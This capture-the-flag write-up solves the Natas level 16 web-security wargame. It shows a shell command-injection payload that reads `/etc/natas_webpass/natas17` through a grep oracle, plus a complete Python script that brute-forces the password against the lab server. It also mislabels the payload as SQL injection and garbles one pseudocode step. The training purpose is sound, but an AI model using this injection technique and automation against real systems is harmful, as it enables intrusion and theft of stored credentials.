



# OverTheWire - Natas - Level 16

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas16` password in the previous challenge, it can be
used to log into http://natas16.natas.labs.overthewire.org:



## Initial Analysis

This looks very similar to [Level 10](level_10.md) except that the text now
says:

> For security reasons, we now filter even more on certain characters

The prompt is the same

> Find words containing:

There's an input box for entering the "words". There is also a `View sourcecode`
link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. The code has probably been tightened up a bit but see if it can be
   exploited

## Step-by-Step Solution

Clicking the `View sourcecode` link shows the source code for the web page. The
passwords are censored, but the PHP code for the page is shown:



This code is very similar to Level 10, except some additional characters are
disallowed: `` ` `` (backtick), `'` (single quote), and `"` (double quote). Some formatting and comments help to understand what this PHP code is doing:

```php
// Initialize the "$key" variable to the empty string.
$key = "";

// The "$_REQUEST" is all the input parameters in the HTTP request. So this will
// check to see if the "needle" parameter is defined. The form on this page has
// an input named "needle", so this checks if the user has submitted a value.
if (array_key_exists("needle", $_REQUEST)) {
  // If the user put a value into the input box, then set "$key" to that value.
  $key = $_REQUEST["needle"];
}

// If the "$key" variable has a value - that is, it was entered by the user -
// then run the code within this clause.
if ($key != "") {
  // This is the new code: check if the input contains any of the characters
  // ';', '|', or '&'.
  if (preg_match('/[;|&`\'"]/', $key)) {
    // Tell the user that the input can't contain the illegal characters.
    print "Input contains an illegal character!";
  } else {
    // Run the "grep" command in case-insensitive ("-i") mode to look for the
    // value of "$key" in the file "dictionary.txt". Print the output of the
    // grep command. Note that this challenge puts $key in double quotes.
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
```

This code is pretty good, but it doesn't have anything to do with passwords. It
just looks up words in a dictionary and prints anything that matches. Entering
the word `hacker` and clicking the `Search` button displays:



If there are no secrets or passwords or anything else in this code, then what is
the solution to the challenge? All this code appears to do is print out words
from a dictionary file. The `$key` used in the `passthru` command now has some
more sanitizing of the input: the characters `;`, `|`, and `&` are filtered as
before, but also it's filtering `` ` ``, `'`, and `"`.

The code runs `passthru` with the command:

```
$ grep -i "$key" dictionary
```

The very big change here is that `$key` is now in double quotes. That means that
it won't be possible to escape the double quotes, as they will be used as part
of the search term.

One thing of note is that the `` ` `` (backtick) character is now filtered -
this character is used for subcommands. However, the new style of subcommand
`$(command)` is still possible. Was this allowed so that it can be exploited?
And why didn't this challenge follow Level 10? Why does it follow the previous
level, which introduced behavioural oracles? And what does this have to do with
the `natas17` password?

Since `grep` can be used to search for regular expressions, which about doing a
subcommand that does `grep ^a /etc/natas_webpass/natas17`. If the password does
start with `a` then the entire password is returned, otherwise try `b`, `c`,
etc until the first letter is found. So how to use this?

If the input string is `hackers$(grep ^a /etc/natas_webpass/natas17)`, then if
the password starts with `a`, the query string will be
`hackersandareallylongpasswordstring` which won't match anything in the
dictionary. However, if the password does not start with `a` then `grep`
returns nothing and the query string is `hackers` and the word `hackers` is
displayed on the web page. That's the oracle!

As with Level 15, it will take hundreds of password guesses to find the
password. It's time to automate.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command, but it "feels" like it needs a programming
language. Python is a popular language for "one off" coding, so that's a good
place to start.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas16` username and password that are needed to call the web
   server
2. Loop over each of the 32 characters in the password
3. Loop over each of the 62 possible password characters
4. Create the "needle" parameter that contains the command injection for the
   password substring guess
5. Call the web server with an HTTP request duplicating what happens when the
   form is submitted
6. Check the response from the web server. If it contains "hacker" then the
   password guess was wrong and change to the next character. If the response
   does contain "hacker" then the next character of the password has been
   found.

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

password = getpass.getpass(prompt='Enter password for natas16: ')
```

#### Step 2: Loop over the password length

First set up a variable to hold the correctly-guessed part of the password, and
then do the loop for 0 to 31.

```python
correct_guesses = ""
for i in range(0, 32):
```

#### Step 3: Loop over the password characters

This is also fairly easy:

```python
for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
```

#### Step 4: The SQL Injection String

```python
password_guess = correct_guesses + char
print(password_guess)
needle = f'hackers$(grep ^{ password_guess } /etc/natas_webpass/natas17)'
```

#### Step 5: Web Server Request

```python
import requests

response = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=("natas16", password), data={ "needle": needle })
```

#### Step 6: Response Handling

```python
if 'hackers' not in response.text:
    correct_guesses += char
    break
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas16: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
    # Step 3: Loop over the password characters
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        # Step 4: The SQL Injection String
        password_guess = correct_guesses + char
        print(password_guess)
        needle = f'hackers$(grep ^{ password_guess } /etc/natas_webpass/natas17)'

        # Step 5: Web Server Request
        response = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=("natas16", password), data={ "needle": needle })

        # Step 6: Response Handling
        if 'hackers' not in response.text:
            correct_guesses += char
            break
```

Running this command, and waiting for many HTTP requests, produces the
`natas17` password.

## Key Takeaways

- It's important to never trust user input
- It's dangerous to allow user input in commands that execute shell commands
- Input filters have to catch every malicious character - it is better to use a
  list of characters that are safe, rather than try to find every unsafe
  character

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file
[solution.py](files/level_16/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
- keeps track of the total number of HTTP requests needed to find the password

### Optimization

It is also possible to optimize this code. One nice thing about the
case-insensitive comparison is that it is actually trying two letters at one
time. For example, a case-insensitive check of 'a' could be made, and if it is
true then a case-sensitive check could then be made. So instead of
case-sensitively checking
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`, which takes an average
of 26 guesses, it could case-insensitively check `abcdefghijklmnopqrstuvwxyz`
and if there is a match then do the case-sensitive check. This would be on
average 13 + 1 guesses to do the whole alphabet.

The file [solution_optimized.py](files/level_16/solution_optimized.py) provides
this solution. The unoptimized solution needed ~1000 HTTP requests, but this
optimized solution needs fewer than 600 HTTP requests.
